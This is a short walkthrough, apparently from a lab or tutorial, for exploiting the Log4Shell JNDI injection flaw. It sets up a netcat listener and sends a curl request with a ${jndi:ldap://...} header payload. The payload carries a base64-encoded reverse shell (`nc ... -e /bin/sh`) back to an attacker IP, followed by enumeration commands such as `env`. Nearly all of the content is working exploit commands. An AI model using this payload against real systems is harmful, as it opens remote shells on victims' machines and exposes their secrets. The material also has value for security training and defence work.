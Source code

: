 Steps:
- Start a listener `screen -S nc`
```
nc -lvp 7777
```
- Detach the session
- Send the upgraded payload:
```
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/bmMgLW52IDE3My4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'
```
NOTES:
- bmMgLW52IDE3My4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g= refers to the command `nc -nv 173.31.24.10 7777 -e /bin/sh`

- If you go back to the netcat session `screen -r nc`, you will see a new message stating that connection
![](./img/nc.png)

- Now **perform some enumeration**:
	- `uname -a`
	- `whoami`
	- `env` (environment variables)




